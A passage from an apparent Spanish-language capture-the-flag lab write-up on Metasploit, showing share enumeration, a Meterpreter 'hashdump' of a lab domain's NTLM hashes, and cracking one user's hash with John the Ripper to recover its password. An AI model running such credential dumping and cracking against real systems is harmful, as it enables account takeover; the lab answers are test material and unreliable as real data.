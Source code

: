 ```sh imp=3,33-35 mar=2,19
[*] 	Type: DISK
[*] 
[*] 	Name: NETLOGON
[*] 	Path: C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: speedster
[*] 	Path: C:\Shares\speedster
[*] 	Type: DISK
[*] 
[*] Post module execution completed
```

## ¿Cuál es el hash NTLM del usuario jchambers?  
Para esto vamos a utilizar `hashdump`
```sh mar=1 imp=6
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:d90355c5de5ac9dd3cbe0db4acc8e09b:::
```

## ¿Cuál es la contraseña de texto sin cifrar del usuario jchambers?  
Ahora vamos a hacer un ataque de diccionario con john, para ello primero tendremos que hacer un archivo con el texto, lo vamos a denominar `hash.txt`
```txt title="Hash.txt"
69596c7aa1e8daee17f8e78870e25a5c
```

Ahora, vamos a romper este cifrado NT 
```sh imp=6
root@ip-10-10-135-18:~# john --wordlist=/usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt --format=NT hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Trustno1         (?)
1g 0:00:00:00 DONE (2025-06-08 14:25) 50.00g/s 2572Kp/s 2572Kc/s 2572KC/s blackrose1..2pac4ever
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

